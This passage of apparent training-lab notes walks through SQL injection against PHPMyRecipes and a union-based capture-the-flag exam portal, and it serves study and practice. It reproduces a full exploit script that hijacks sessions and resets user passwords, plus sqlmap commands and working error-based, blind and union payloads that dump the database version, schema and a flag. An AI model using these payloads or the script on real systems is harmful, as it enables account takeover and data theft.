We seem to have encountered a database error. Please send email to bugs@bonkoif.com with the following information:

    File - login.php
    Reason - Cannot perform select
    Text - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '") = 0 LIMIT 1' at line 1 ←
```

We can confirm that the SQL Injection vulnerability exists and that it is an error-based SQLi.

2. **Search on google "PHPMyRecipes sql injection" and look for publically available
exploits.**

The exploit db link contains a python script which can be used to exploit the SQL Injection
vulnerability.
Exploit DB Link: https://www.exploit-db.com/exploits/35365.

```python
#!/usr/bin/python

import httplib
from bs4 import BeautifulSoup
import re
import os

###########
# Function that takes an SQL select statement and inject it into the words_exact variable of dosearch.php 
# Returns BeautifulSoup object 
###########
def sqli(select):
   inject = '"\' IN BOOLEAN MODE) UNION ' + select + '#'
   body = 'words_all=&words_exact=' + inject + '&words_any=&words_without=&name_exact=&ing_modifier=2'
   c = httplib.HTTPConnection('127.0.0.1:80')
   c.request("POST", '/phpMyRecipes/dosearch.php', body, headers)
   r = c.getresponse()
   html = r.read()
   return BeautifulSoup(html)

#############
# Variables #
#############
headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:22.0) Gecko/20100101 Firefox/22.0 Iceweasel/22.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Endocing": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded"}
select = 'SELECT userid,sessionID from sessions;'   # Modify the select statement to see what else you can do
data = {}

###########
# Run Injection and see what comes back
###########
soup = sqli(select)

###########
# Parse returned information with BeautifulSoup- store in data dictionary
###########
for ID in soup("a", text=re.compile(r"^.{32}$")):
   data[ID.string] = {}
   values = ['userid','username','cookieOK','privs','ts']
   for value in values:
      #select = "SELECT NULL,userid from sessions where sessionID='" + ID.string + "';"
      select = "SELECT NULL," + value + " from sessions where sessionID='" + ID.string + "';"
      soup = sqli(select)
      rval = soup("a")[-1].string
      data[ID.string][value] = rval

###########
# Loop through data- print session information and decide if you want to change a user's password
###########
for sessionid,values in data.iteritems():
   print "Session ID: " + sessionid
   for field,value in values.iteritems():
      print "\t" + field + ": " + value
   print("Do you want to change this user's password? (y/N)"),
   ans = 'N'
   ans = raw_input()
   goforth = re.compile("[Yy].*")
   if goforth.match(ans):
      print("Enter new password: "),
      os.system("stty -echo")
      password1 = raw_input()
      os.system("stty echo")
      print("\nAgain with the password: "),
      os.system("stty -echo")
      password2 = raw_input()
      os.system("stty echo")
      print ("")
      if password1 == password2:
         body = 'sid=' + sessionid + '&username=' + data[sessionid]['username'] + '&name=Hacked&email=hacked%40hacked.com&password1=' + password1 + '&password2=' + password1
         c = httplib.HTTPConnection('127.0.0.1:80')
         c.request("POST", '/phpMyRecipes/profile.php', body, headers)
         r = c.getresponse()
         html = r.read()
         print ("===================================")
         print BeautifulSoup(html)("p",{"class": "content"})[0].string
         print ("===================================\n\n")
      else:
         print "Passwords did not match"
```

Analysis of the python script reveals that the `words_exact` parameter sent in POST request to
the web page `dosearch.php` webpage is vulnerable:
- Vulnerable web page: `/dosearch.php`.
- Vulnerable parameter: `words_exact`.

3. **Find the SQL Injection payload using sqlmap**

To automate the process of finding the SQL Injection vulnerability, we can use `sqlmap`.

`sqlmap --help`:
```
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

Usage: python3 sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1") ←
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1") ←
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s) ←
    --dbms=DBMS         Force back-end DBMS to provided value

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --dbs               Enumerate DBMS databases
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    These options do not fit into any other category

    --wizard            Simple wizard interface for beginner users
```

Running `sqlmap` with the following command to test the vulnerability.

`sqlmap -u "https://riw3p3y4z4yqvajq77z5ja49u.us-east-40.attackdefensecloudlabs.com/dosearch.php" --data "words_exact=" -p words_exact --method POST`:
```
sqlmap identified the following injection point(s) with a total of 622 HTTP(s) requests:
---
Parameter: words_exact (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: words_exact=' IN BOOLEAN MODE) AND EXTRACTVALUE(4971,CASE WHEN (4971=4971) THEN 4971 ELSE 0x3A END)#

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: words_exact=' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7178626a71,(SELECT (ELT(1595=1595,1))),0x7178707071,0x78))s), 8446744073709551610, 8446744073709551610)))# ←

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: words_exact=' IN BOOLEAN MODE) UNION ALL SELECT CONCAT(0x71626a7a71,0x47726249416d626977764e4541437472786f515852684169484a445564584e56626c4a476b6d7645,0x7176717a71),NULL#
---
[04:19:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu ←
web application technology: PHP 5.5.9, Apache 2.4.7
back-end DBMS: MySQL >= 5.5 ←
```

Alternatively, we can use the following command instead:

`sqlmap -r request -p words_exact --technique=E`

Where `request` is the Burp Suite captured request saved in a file.

Payloads:

Type: Error Based ←
Payload: `words_exact=' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7178626a71,(SELECT (ELT(1595=1595,1))),0x7178707071,0x78))s), 8446744073709551610, 8446744073709551610)))#`

Type: AND/OR time-based blind
Payload: `words_exact=' IN BOOLEAN MODE) AND EXTRACTVALUE(4971,CASE WHEN (4971=4971) THEN 4971 ELSE 0x3A END)#`

Type: Union Query
Payload: `words_exact=' IN BOOLEAN MODE) UNION ALL SELECT CONCAT(0x71626a7a71,0x47726249416d626977764e4541437472786f515852684169484a445564584e56626c4a476b6d7645,0x7176717a71),NULL#`

4. **Navigate to Search tab and remove the character length restriction from the "with exact
phrase" text field**

Click on the **Search** tab on the left panel.

By default in the **with exact phrase** text field only 80 characters can be entered. Since the
payload is larger than 80 characters, modify the html tag to remove the restriction. 

Right click on the **with exact phrase** text field and click on inspect element:
```html
<input type="text" name="name_exact" size="30" maxlength="80">
```

Click on **maxlength** attribute of the input tag and hit delete key:
```html
<input type="text" name="name_exact" size="30">
```

5. **Inject the Error based payload in the "with exact phrase" text field and exploit the SQL injection vulnerability**

Type: Error Based
Payload: `words_exact=' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7178626a71,(SELECT (ELT(1595=1595,1))),0x7178707071,0x78))s), 8446744073709551610, 8446744073709551610)))#` ←

Click on the **Search** button.

Database Error:
```
We seem to have encountered a database error. Please send email to bugs@bonkoif.com with the following information:

    File - dosearch.php
    Reason - Cannot select recipe lines by instructions/name
    Text - BIGINT value is out of range in '(2 * if((select 'qxbjq1qxppqx' from dual),8446744073709551610,8446744073709551610))'
```

The injected SQL query was executed.

**Note**: The string `'qxbjq1qxppqx'` seen in the error message is a unique identifier constructed within the injected SQL query. It is used to confirm that the SQL injection was successful and that the query was executed by the database.
The string is formed by concatenating several hexadecimal values: `0x7178626a71` (which represents 'qxbjq'), `0x7178707071` (which represents 'qxppq'), and `0x78` (which represents 'x'), along with the result of an always-true condition `ELT(1595=1595, 1)`.

6. **Modify the payload and retrieve the MySQL server version information**

Repeat *step 4* first.

Modify the payload used in *step 5* to dump the MySQL server version.

Modified Payload: `' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7178626a71,(SELECT (ELT(1595=1595,1))),0x7178707071,version()))s), 8446744073709551610, 8446744073709551610)))#` ←

Click on the **Search** button.

Database Error:
```
We seem to have encountered a database error. Please send email to [bugs@bonkoif.com](mailto:bugs@bonkoif.com) with the following information:

- File - dosearch.php
- Reason - Cannot select recipe lines by instructions/name
- Text - BIGINT value is out of range in '(2 * if((select 'qxbjq1qxppq5.5.47-0ubuntu0.14.04.1' from dual),8446744073709551610,8446744073709551610))' ←
```

The MySQL Server version is revealed.

### Exploiting Union-Based SQL Injection Vulnerabilities - Theory/Lab



#### Union-Based SQL Injection

Union-based SQL injection is a type of SQL injection attack that exploits the ability to use the UNION operator in SQL queries.

It occurs when an application fails to properly validate or sanitize user input and allows an attacker to inject malicious SQL code into the query.
The UNION operator is used in SQL to combine the results of two or more SELECT statements into a single result set.

It requires that the number of columns and their data types match in the SELECT statements being combined.

In a union-based SQL injection attack, the attacker injects additional SELECT statements through the vulnerable input to retrieve data from other database tables or to extract sensitive information.

Here's an **example** to illustrate the concept.

Consider the following vulnerable code snippet:
`SELECT id, name FROM users WHERE id = '<user_input>'`

An attacker can exploit this vulnerability by injecting a UNION-based attack payload into the `<user_input>` parameter. They could inject a statement like:
`' UNION SELECT credit_card_number, 'hack' FROM credit_cards --`

The injected payload modifies the original query to retrieve the credit card numbers along with a custom value ('hack') from the `credit_cards` table. The double dash at the end is used to comment out the remaining part of the original query.

If the application is vulnerable to union-based SQL injection, the modified query would become:
`SELECT id, name FROM users WHERE id = '' UNION SELECT credit_card_number, 'hack' FROM credit_cards --`

The database would then execute this modified query, and the result would include the credit card numbers alongside the original user data. The attacker can subsequently extract this sensitive information.

**Union-Based SQL Injection Methodology**

1. **Identify user inputs**. Determine the inputs on the application that are used in database queries. These inputs can include URL parameters, form fields, cookies, or any other user-controllable data.

2. **Test inputs for vulnerability**. Inject a simple payload, such as a single quote (') or a double quote ("). If the application produces an error or exhibits unexpected behavior, it might indicate a potential SQL injection vulnerability.

3. **Identify vulnerable injection points**. Manipulate the injected payload to check if the application responds differently based on the injected data. You can try injecting various payloads like UNION SELECT statements or boolean conditions (e.g., `'OR '1'='1`) to see if the application behaves differently based on the response.

4. **Confirm the presence of a vulnerability**. Once you have identified a potential injection point, you need to confirm if it is vulnerable to Union-based SQL injection. To do this, you can inject a UNION SELECT statement and observe the application's response. If the response includes additional columns or unexpected data, it is likely vulnerable to Union-based SQL injection.

5. **Enumerate the database**. Exploit the Union-based SQL injection vulnerability to enumerate the database structure. Inject UNION SELECT statements with appropriate column names and table names to retrieve information about the database schema, tables, and columns. You can use techniques like ORDER BY or LIMIT clauses to retrieve specific information.

#### Lab Environment

**Vulnerable Results Portal: Union Based SQLi**

College Exams are over and the results are out! ABC University had released the exam results on the portal developed by their college students.

One of the student found that the portal was vulnerable to Union-based SQL Injection!

**Note:** The backend database is SQLite.

**Objective:** Leverage the vulnerability to determine the SQLite version and the dump flag from the database!

Instructions:
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address 192.X.Y.2. Run `ifconfig` to know the values of X and Y.
- The webapp should be running on port 5000 on the machine located at the IP address 192.X.Y.3.
- Do not attack the gateway located at IP address 192.X.Y.1.

#### Lab Solution

1. **Interacting with the Exam Results webapp**

When the lab starts up, the **Exam Results** webapp opens up in the browser (i.e., http://results.abc.univ.edu:5000/).

Enter any random roll number (e.g., 100) and see the result for it.

Using Burp Suite we can see that the following request is made:
```
GET /results?rollno=100 HTTP/1.1 ←
Host: 192.183.152.3:8000 ←
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://results.abc.univ.edu:5000/
Origin: http://results.abc.univ.edu:5000 ←
Connection: close
```

We can see that we have a different host in the request (`192.183.152.3:8000`) compared to the webapp URL (`results.abc.univ.edu:5000`). This indicates that the backend server handling the request is different from the frontend webapp server.

2. **Send a SQL Injection payload to the webapp**

Payload: `a' or '1'='1' --`

The above payload would result in a true statement and thus get all the records from the database.

| Roll No.   | Name          | Marks | Rank |
|------------|---------------|-------|------|
| 181862891  | Rohan Singh   | 900.0 | 12   |
| 181862892  | Rahul Verma   | 980.0 | 4    |
| 181862893  | Rishabh       | 910.0 | 11   |
| 181862894  | Shantanu      | 915.5 | 9    |
| 181862895  | Naveen        | 975.5 | 5    |
| 181862896  | Arpita Seth   | 980.0 | 4    |

3. **Send a Union Based SQLi payload to determine the version of SQLite**

Payload: `a' or '1'='1' union select 1 --`
Payload: `a' or '1'='1' union select 1,2 --`
Payload: `a' or '1'='1' union select 1,2,3 --`
Payload: `a' or '1'='1' union select 1,2,3,4 --`
Payload: `a' or '1'='1' union select 1,2,3,4,5 --`

| Roll No.   | Name          | Marks | Rank |
|------------|---------------|-------|------|
| 1          | 3             | 4     | 5    | ←
| 181862891  | Rohan Singh   | 900.0 | 12   |
| 181862892  | Rahul Verma   | 980.0 | 4    |
| 181862893  | Rishabh       | 910.0 | 11   |
| 181862894  | Shantanu      | 915.5 | 9    |
| 181862895  | Naveen        | 975.5 | 5    |
| 181862896  | Arpita Seth   | 980.0 | 4    |

So, the number of rows in the result on the left side must be 5.

Notice that in the response, 2nd entry is not retrieved.

Send the following payload to retrieve the SQLite version.

Payload: `a' or '1'='1' union select sqlite_version(),2,3,4,5 --`

| Roll No.   | Name          | Marks | Rank |
|------------|---------------|-------|------|
| 181862891  | Rohan Singh   | 900.0 | 12   |
| 181862892  | Rahul Verma   | 980.0 | 4    |
| 181862893  | Rishabh       | 910.0 | 11   |
| 181862894  | Shantanu      | 915.5 | 9    |
| 181862895  | Naveen        | 975.5 | 5    |
| 181862896  | Arpita Seth   | 980.0 | 4    |
| 3.22.0     | 3             | 4     | 5    | ←

**SQLite version**: `3.22.0`.

4. **Send a Union Based SQLi payload to determine the name and schema of the tables stored in the database**

We can get useful information on the [SQLite schema table documentation page](https://sqlite.org/schematab.html).

Payload: `a' or '1'='1' union select tbl_name,2,3,4,5 from sqlite_master --`

| Roll No.    | Name          | Marks | Rank |
|-------------|---------------|-------|------|
| 181862891   | Rohan Singh   | 900.0 | 12   |
| 181862892   | Rahul Verma   | 980.0 | 4    |
| 181862893   | Rishabh       | 910.0 | 11   |
| 181862894   | Shantanu      | 915.5 | 9    |
| 181862895   | Naveen        | 975.5 | 5    |
| 181862896   | Arpita Seth   | 980.0 | 4    |
| results     | 3             | 4     | 5    | ←
| secret_flag | 3             | 4     | 5    | ←

There are 2 tables stored in the database: `results` and `secret_flag`.

Use the following payload to determine the columns of the `secret_flag` table.

Payload: `a' or '1'='1' union select name,2,3,4,5 from pragma_table_info('secret_flag') --`

| Roll No.   | Name          | Marks | Rank |
|------------|---------------|-------|------|
| 181862891  | Rohan Singh   | 900.0 | 12   |
| 181862892  | Rahul Verma   | 980.0 | 4    |
| 181862893  | Rishabh       | 910.0 | 11   |
| 181862894  | Shantanu      | 915.5 | 9    |
| 181862895  | Naveen        | 975.5 | 5    |
| 181862896  | Arpita Seth   | 980.0 | 4    |
| flag       | 3             | 4     | 5    | ←
| value      | 3             | 4     | 5    | ←

Notice the last 2 entries. They contain the names of the columns in the `secret_flag` table.

Otherwise we can use the following alternative method to get the same columns information.

Use the following payload to determine the SQL command used to construct the tables.

Payload: `a' or '1'='1' union select sql,2,3,4,5 from sqlite_master --`

| Roll No.   | Name          | Marks | Rank |
|------------|---------------|-------|------|
| 181862891  | Rohan Singh   | 900.0 | 12   |
| 181862892  | Rahul Verma   | 980.0 | 4    |
| 181862893  | Rishabh       | 910.0 | 11   |
| 181862894  | Shantanu      | 915.5 | 9    |
| 181862895  | Naveen        | 975.5 | 5    |
| 181862896  | Arpita Seth   | 980.0 | 4    |
| CREATE TABLE results (rollno text primary key, email text, name text, marks real, rank integer)       | 3             | 4     | 5    | ←
| CREATE TABLE secret_flag (flag text, value text)      | 3             | 4     | 5    | ←

Notice the last 2 entries. They contain the SQL commands used to construct the results and the `secret_flag` tables.

5. **Retrieving the secret flag**

Payload: `a' or '1'='1' union select flag,2,value,4,5 from secret_flag --`

| Roll No.  | Name                          | Marks | Rank |
|-----------|-------------------------------|-------|------|
| 181862891 | Rohan Singh                   | 900.0 | 12   |
| 181862892 | Rahul Verma                   | 980.0 | 4    |
| 181862893 | Rishabh                       | 910.0 | 11   |
| 181862894 | Shantanu                      | 915.5 | 9    |
| 181862895 | Naveen                        | 975.5 | 5    |
| 181862896 | Arpita Seth                   | 980.0 | 4    |
| flag      | THIS_IS_THE_FLAG_da60b8d2972a | 4     | 5    | ←

**Flag**: `THIS_IS_THE_FLAG_da60b8d2972a`.

Notice that the above payload doesn’t use the second column to retrieve the data. Instead, the third column because as seen before, the second column never shows up in the result!

---
---
